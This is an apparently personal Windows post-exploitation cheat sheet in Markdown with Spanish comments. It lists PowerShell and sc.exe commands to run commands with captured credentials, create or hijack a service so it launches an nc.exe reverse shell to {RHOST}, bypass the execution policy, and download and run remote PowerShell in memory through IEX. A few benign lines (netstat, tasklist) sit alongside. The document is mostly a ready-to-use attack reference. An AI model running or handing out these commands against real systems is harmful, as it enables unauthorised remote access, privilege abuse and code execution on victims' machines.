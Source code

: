 ![[Pasted image 20230215173659.png]]

---

## List Services
```powershell
> services
```

## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecuta comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```

  
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell

> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```


## Open ports
```powershell
> netstat -nat 

> netstat -ano -p tcp
```


## System process
```powershell 
> tasklist
```
